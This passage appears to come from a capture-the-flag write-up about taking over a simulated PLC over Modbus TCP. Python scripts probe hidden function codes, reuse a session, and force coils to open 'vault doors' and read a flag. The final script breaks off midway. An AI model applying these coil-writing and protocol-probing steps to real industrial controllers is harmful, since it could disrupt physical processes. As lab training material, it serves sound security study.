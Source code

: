 ```python
# <SNIP>

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x45
    code, status, data = send_packet(client, SESSION, custom_code-1)
    code, status, data = send_packet(client, SESSION, custom_code+1)

    custom_code = 0x53
    code, status, data = send_packet(client, SESSION, custom_code-1)
    code, status, data = send_packet(client, SESSION, custom_code+1)

```

```
python3 client.py

Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid Function Code
```

So the following additional function codes exist: 0x44, 0x46, 0x52. Attempting to send those commands with our valid session will result in a failure for the command 0x44 returning the code ERROR CODE 0xE003: Invalid Function Code. The other two commands appear to pass on successfully. Attempting to write the coils now results in success.

```
python3 write_coils.py

Coils written successfully
Coils values read: [False, True, True, False, False, False, False, False]
```

### PLC take over

Unfortunately, if we wait 10 seconds (the duration for the vault doors to open) and attempt to read the flag we will fail. Let's try again the full process of forcing the coils true then wait 10 seconds before we verify that the coils are still true and reading the registers.

```python
from pymodbus.client import ModbusTcpClient

from pymodbus.transaction import ModbusSocketFramer
import time

HOST = 'localhost'
IP = 502
FLAG_ADDR_HOLDING_REGISTER = 123
FLAG_COUNT = 100

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST, port=IP, framer=ModbusSocketFramer)
    
    # Configuration
    COIL_START = 0
    COIL_VALUES = [0,1,1]  
```